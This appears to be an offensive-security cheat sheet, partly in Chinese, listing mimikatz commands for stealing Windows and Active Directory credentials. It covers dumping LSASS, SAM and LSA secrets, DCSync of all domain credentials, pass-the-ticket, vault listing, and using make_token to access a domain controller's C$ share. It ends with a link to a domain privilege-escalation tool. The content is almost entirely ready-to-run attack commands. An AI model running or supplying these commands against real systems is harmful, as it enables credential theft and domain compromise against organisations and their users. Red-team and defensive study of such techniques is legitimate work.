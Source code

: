 ```cpp
#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
```cpp
视频中学到一个
查看有没有密码
mimikatz !lsadump::secrets

make_token user password
然后就直接拥有对应用户权限
net computer
ls \\dc\\C$

```
## 域内本地提权
### SharpAddMachine
[https://github.com/Ridter/SharpAddDomainMachine](https://github.com/Ridter/SharpAddDomainMachine)
